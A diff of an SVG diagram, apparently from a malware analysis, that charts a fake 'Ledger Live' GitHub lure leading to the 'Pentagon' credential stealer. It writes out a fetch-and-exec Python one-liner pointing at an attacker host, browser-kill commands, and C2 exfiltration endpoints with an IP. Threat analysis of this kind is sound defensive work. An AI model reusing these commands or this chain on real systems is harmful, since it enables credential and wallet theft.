

- <svg xmlns="http://www.w3.org/2000/svg" width="100%" viewBox="0 0 700 590" role="img" font-family="-apple-system, Segoe UI, Roboto, Helvetica, Arial, sans-serif">
+ <svg xmlns="http://www.w3.org/2000/svg" width="100%" viewBox="0 0 760 856" role="img" font-family="-apple-system, Segoe UI, Roboto, Helvetica, Arial, sans-serif">
  <defs>
    <marker id="arrow" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="6" markerHeight="6" orient="auto-start-reverse">
      <path d="M2 1L8 5L2 9" fill="none" stroke="context-stroke" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" />
    </marker>
  </defs>
-   <rect x="0" y="0" width="700" height="590" rx="16" fill="#FBFAF7" />
-   <line x1="350" y1="76" x2="350" y2="94" stroke="#73726c" stroke-width="1.5" marker-end="url(#arrow)" />
-   <line x1="350" y1="152" x2="350" y2="170" stroke="#73726c" stroke-width="1.5" marker-end="url(#arrow)" />
-   <line x1="350" y1="228" x2="350" y2="246" stroke="#73726c" stroke-width="1.5" marker-end="url(#arrow)" />
-   <line x1="350" y1="304" x2="350" y2="322" stroke="#73726c" stroke-width="1.5" marker-end="url(#arrow)" />
-   <line x1="350" y1="380" x2="350" y2="398" stroke="#73726c" stroke-width="1.5" marker-end="url(#arrow)" />
-   <line x1="350" y1="456" x2="350" y2="474" stroke="#73726c" stroke-width="1.5" marker-end="url(#arrow)" />
-   <rect x="70" y="20" width="560" height="54" rx="10" fill="#E6F1FB" stroke="#185FA5" stroke-width="0.75" />
-   <text x="350" y="41" text-anchor="middle" dominant-baseline="central" font-size="14" font-weight="500" fill="#0C447C">Fake “Ledger Live” on GitHub</text>
-   <text x="350" y="58" text-anchor="middle" dominant-baseline="central" font-size="12" fill="#185FA5">immemtary/ledger-larp-wallet — Ledger Live.exe (unsigned)</text>
-   <rect x="70" y="96" width="560" height="54" rx="10" fill="#FAECE7" stroke="#993C1D" stroke-width="0.75" />
-   <text x="350" y="117" text-anchor="middle" dominant-baseline="central" font-size="14" font-weight="500" fill="#712B13">Ledger Live.exe runs</text>
-   <text x="350" y="134" text-anchor="middle" dominant-baseline="central" font-size="12" fill="#993C1D">drops a private Python to %APPDATA%\Google\python\</text>
-   <rect x="70" y="172" width="560" height="54" rx="10" fill="#FAECE7" stroke="#993C1D" stroke-width="0.75" />
-   <text x="350" y="193" text-anchor="middle" dominant-baseline="central" font-size="14" font-weight="500" fill="#712B13">wscript r.vbs bootstraps pip</text>
-   <text x="350" y="210" text-anchor="middle" dominant-baseline="central" font-size="12" fill="#993C1D">installs cryptography, requests, setuptools</text>
-   <rect x="70" y="248" width="560" height="54" rx="10" fill="#FAECE7" stroke="#993C1D" stroke-width="0.75" />
-   <text x="350" y="269" text-anchor="middle" dominant-baseline="central" font-size="14" font-weight="500" fill="#712B13">Second stage fetched in memory</text>
-   <text x="350" y="286" text-anchor="middle" dominant-baseline="central" font-size="12" fill="#993C1D">python exec(requests.get marsalek.cy/paste)</text>
-   <rect x="70" y="324" width="560" height="54" rx="10" fill="#FCEBEB" stroke="#A32D2D" stroke-width="0.75" />
-   <text x="350" y="345" text-anchor="middle" dominant-baseline="central" font-size="14" font-weight="500" fill="#791F1F">Pentagon stealer (svc.py)</text>
-   <text x="350" y="362" text-anchor="middle" dominant-baseline="central" font-size="12" fill="#A32D2D">pip pycryptodome, pywin32, psutil</text>
-   <rect x="70" y="400" width="560" height="54" rx="10" fill="#FCEBEB" stroke="#A32D2D" stroke-width="0.75" />
-   <text x="350" y="421" text-anchor="middle" dominant-baseline="central" font-size="14" font-weight="500" fill="#791F1F">Mass browser kill + credential theft</text>
-   <text x="350" y="438" text-anchor="middle" dominant-baseline="central" font-size="12" fill="#A32D2D">taskkill ~20 browsers; reads passwords, cookies, clipboard</text>
-   <rect x="70" y="476" width="560" height="54" rx="10" fill="#FCEBEB" stroke="#A32D2D" stroke-width="0.75" />
-   <text x="350" y="497" text-anchor="middle" dominant-baseline="central" font-size="14" font-weight="500" fill="#791F1F">C2 exfiltration</text>
-   <text x="350" y="514" text-anchor="middle" dominant-baseline="central" font-size="12" fill="#A32D2D">POST marsalek.cy (185.178.208.168): /create_log, /log_data</text>
-   <circle cx="70" cy="564" r="5" fill="#185FA5" />
-   <text x="80" y="564" dominant-baseline="central" font-size="12" fill="#444441">Lure</text>
-   <circle cx="138" cy="564" r="5" fill="#993C1D" />
-   <text x="148" y="564" dominant-baseline="central" font-size="12" fill="#444441">Delivery</text>
-   <circle cx="234" cy="564" r="5" fill="#A32D2D" />
-   <text x="244" y="564" dominant-baseline="central" font-size="12" fill="#444441">Payload / C2</text>
+   <rect x="0" y="0" width="760" height="856" rx="16" fill="#FBFAF7" />
+   <line x1="380" y1="115" x2="380" y2="135" stroke="#73726c" stroke-width="1.5" marker-end="url(#arrow)" />
+   <line x1="380" y1="216" x2="380" y2="236" stroke="#73726c" stroke-width="1.5" marker-end="url(#arrow)" />
+   <line x1="380" y1="349" x2="380" y2="369" stroke="#73726c" stroke-width="1.5" marker-end="url(#arrow)" />
+   <line x1="380" y1="450" x2="380" y2="470" stroke="#73726c" stroke-width="1.5" marker-end="url(#arrow)" />
+   <line x1="380" y1="532" x2="380" y2="552" stroke="#73726c" stroke-width="1.5" marker-end="url(#arrow)" />
+   <line x1="380" y1="665" x2="380" y2="685" stroke="#73726c" stroke-width="1.5" marker-end="url(#arrow)" />
+   <rect x="50" y="20" width="660" height="93" rx="10" fill="#E6F1FB" stroke="#185FA5" stroke-width="0.75" />
+   <text x="72" y="42" dominant-baseline="central" font-size="14" font-weight="500" fill="#0C447C">Fake “Ledger Live” repo on GitHub</text>
+   <text x="72" y="60" dominant-baseline="central" font-size="12" fill="#185FA5">github.com/immemtary/ledger-larp-wallet</text>
+   <text x="76" y="79" dominant-baseline="central" font-size="11" font-family="ui-monospace, SFMono-Regular, Menlo, Consolas, monospace" fill="#0C447C">
+     <tspan fill="#185FA5">├─ </tspan>user downloads Ledger Live.exe (≈2 MB, packed, unsigned)</text>
+   <text x="76" y="95" dominant-baseline="central" font-size="11" font-family="ui-monospace, SFMono-Regular, Menlo, Consolas, monospace" fill="#0C447C">
+     <tspan fill="#185FA5">├─ </tspan>Windows warns “Unknown Publisher”; victim clicks Run</text>
+   <rect x="50" y="137" width="660" height="77" rx="10" fill="#FAECE7" stroke="#993C1D" stroke-width="0.75" />
+   <text x="72" y="159" dominant-baseline="central" font-size="14" font-weight="500" fill="#712B13">Ledger Live.exe</text>
+   <text x="72" y="177" dominant-baseline="central" font-size="12" fill="#993C1D">drops a private Python install</text>
+   <text x="76" y="196" dominant-baseline="central" font-size="11" font-family="ui-monospace, SFMono-Regular, Menlo, Consolas, monospace" fill="#712B13">
+     <tspan fill="#993C1D">├─ </tspan>%APPDATA%\Google\python\  (python.exe, get-pip.py)</text>
+   <rect x="50" y="238" width="660" height="109" rx="10" fill="#FAECE7" stroke="#993C1D" stroke-width="0.75" />
+   <text x="72" y="260" dominant-baseline="central" font-size="14" font-weight="500" fill="#712B13">wscript.exe %APPDATA%\Google\python\r.vbs</text>
+   <text x="72" y="278" dominant-baseline="central" font-size="12" fill="#993C1D">runs several times to bootstrap pip</text>
+   <text x="76" y="297" dominant-baseline="central" font-size="11" font-family="ui-monospace, SFMono-Regular, Menlo, Consolas, monospace" fill="#712B13">
+     <tspan fill="#993C1D">├─ </tspan>python get-pip.py</text>
+   <text x="76" y="313" dominant-baseline="central" font-size="11" font-family="ui-monospace, SFMono-Regular, Menlo, Consolas, monospace" fill="#712B13">
+     <tspan fill="#993C1D">├─ </tspan>python -m pip install setuptools</text>
+   <text x="76" y="329" dominant-baseline="central" font-size="11" font-family="ui-monospace, SFMono-Regular, Menlo, Consolas, monospace" fill="#712B13">
+     <tspan fill="#993C1D">├─ </tspan>python -m pip install cryptography fernet requests</text>
+   <rect x="50" y="371" width="660" height="77" rx="10" fill="#FAECE7" stroke="#993C1D" stroke-width="0.75" />
+   <text x="72" y="393" dominant-baseline="central" font-size="14" font-weight="500" fill="#712B13">Second stage downloaded and executed in memory</text>
+   <text x="72" y="411" dominant-baseline="central" font-size="12" fill="#993C1D">~128 KB script, HTML &lt;pre&gt; tags stripped, passed to exec()</text>
+   <text x="76" y="430" dominant-baseline="central" font-size="11" font-family="ui-monospace, SFMono-Regular, Menlo, Consolas, monospace" fill="#712B13">
+     <tspan fill="#993C1D">├─ </tspan>python -c "exec(requests.get('https://marsalek.cy/paste?userid=5&amp;is_exe=1').text ...)"</text>
+   <rect x="50" y="472" width="660" height="58" rx="10" fill="#FAECE7" stroke="#993C1D" stroke-width="0.75" />
+   <text x="72" y="494" dominant-baseline="central" font-size="14" font-weight="500" fill="#712B13">cmd /c python %APPDATA%\python_setup.py</text>
+   <text x="72" y="512" dominant-baseline="central" font-size="12" fill="#993C1D">sets up the final stage</text>
+   <rect x="50" y="554" width="660" height="109" rx="10" fill="#FCEBEB" stroke="#A32D2D" stroke-width="0.75" />
+   <text x="72" y="576" dominant-baseline="central" font-size="14" font-weight="500" fill="#791F1F">Pentagon stealer</text>
+   <text x="72" y="594" dominant-baseline="central" font-size="12" fill="#A32D2D">wscript.exe %TEMP%\r.vbs  →  python %TEMP%\svc.py</text>
+   <text x="76" y="613" dominant-baseline="central" font-size="11" font-family="ui-monospace, SFMono-Regular, Menlo, Consolas, monospace" fill="#791F1F">
+     <tspan fill="#A32D2D">├─ </tspan>pip install pycryptodome pypiwin32 pywin32 requests psutil</text>
+   <text x="76" y="629" dominant-baseline="central" font-size="11" font-family="ui-monospace, SFMono-Regular, Menlo, Consolas, monospace" fill="#791F1F">
+     <tspan fill="#A32D2D">├─ </tspan>taskkill /F /IM &lt;browser&gt;.exe  (~20 browsers)</text>
+   <text x="76" y="645" dominant-baseline="central" font-size="11" font-family="ui-monospace, SFMono-Regular, Menlo, Consolas, monospace" fill="#791F1F">
+     <tspan fill="#A32D2D">├─ </tspan>reads saved passwords, cookies and sessions; watches the clipboard</text>
+   <rect x="50" y="687" width="660" height="109" rx="10" fill="#FCEBEB" stroke="#A32D2D" stroke-width="0.75" />
+   <text x="72" y="709" dominant-baseline="central" font-size="14" font-weight="500" fill="#791F1F">C2 reporting</text>
+   <text x="72" y="727" dominant-baseline="central" font-size="12" fill="#A32D2D">marsalek.cy — 185.178.208.168 (DDoS-Guard)</text>
+   <text x="76" y="746" dominant-baseline="central" font-size="11" font-family="ui-monospace, SFMono-Regular, Menlo, Consolas, monospace" fill="#791F1F">
+     <tspan fill="#A32D2D">├─ </tspan>POST https://marsalek.cy/create_log</text>
+   <text x="76" y="762" dominant-baseline="central" font-size="11" font-family="ui-monospace, SFMono-Regular, Menlo, Consolas, monospace" fill="#791F1F">
+     <tspan fill="#A32D2D">├─ </tspan>POST https://marsalek.cy/log_data</text>
+   <text x="76" y="778" dominant-baseline="central" font-size="11" font-family="ui-monospace, SFMono-Regular, Menlo, Consolas, monospace" fill="#791F1F">
